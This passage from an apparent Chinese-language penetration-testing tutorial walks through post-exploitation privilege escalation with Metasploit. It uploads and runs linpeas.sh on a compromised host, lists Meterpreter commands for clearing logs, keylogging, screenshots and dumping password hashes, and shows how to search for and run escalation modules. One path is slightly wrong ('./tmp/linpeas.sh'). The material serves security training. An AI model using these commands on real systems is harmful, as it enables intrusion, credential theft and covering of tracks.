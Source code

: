 ##### 4.2.1b、执行`linpeas.sh`提权扫描脚本
**上传脚本到目标服务器**
- 在 MSF 控制台中进入目标会话的交互式 Shell：
```ruby
sessions -i <会话ID>  # 例如 sessions -i 1
```
- 使用`upload`命令上传本地的`linpeas.sh`（需提前下载脚本到攻击机）：
```bash
msf6 > upload /path/to/linpeas.sh /tmp/linpeas.sh  # 在MSF控制台执行
```
**赋予执行权限并运行**
```bash
chmod +x /tmp/linpeas.sh  # 在目标Shell中执行
./tmp/linpeas.sh  # 运行脚本，等待扫描结果
```

##### 4.2.2、用于提权的其他操作

| 模块名称   | 模块路径                               |
| ------ | ---------------------------------- |
| 上传文件   | `upload /path/to/file`             |
| 下载文件   | `download /path/to/file`           |
| 执行命令   | `execute -f cmd.exe`               |
| 清除日志   | `clearev`                          |
| 进程迁移   | `run post/windows/manage/migrate`  |
| 键盘记录   | `keyscan_start`、`keyscan_dump`     |
| 屏幕截图   | `screengrab`                       |
| 抓取密码哈希 | `run post/windows/gather/hashdump` |


##### 4.2.3、检查漏洞利用模块
Metasploit提供了大量的提权模块，可以根据收集到的系统信息筛选合适的模块进行尝试。
• 搜索提权模块：在MSF控制台中使用`search`命令搜索适用于目标系统的提权模块，例如搜索针对特定内核版本的提权模块。
```plaintext
msf6 > search linux privilege escalation
```
• 选择合适的模块：根据搜索结果选择合适的提权模块，使用`use`命令加载模块。
```plaintext
msf6 > use <模块名称>
```
• 设置必要的参数：使用`set`命令设置模块所需的参数，如`SESSION`参数指定要提权的Meterpreter会话编号。
```plaintext
msf6 exploit(<模块名称>) > set SESSION <会话编号>
```
• 执行模块：使用`run`或`exploit`命令执行提权模块。
```plaintext
msf6 exploit(<模块名称>) > run
```

##### Linux 权限提升模块
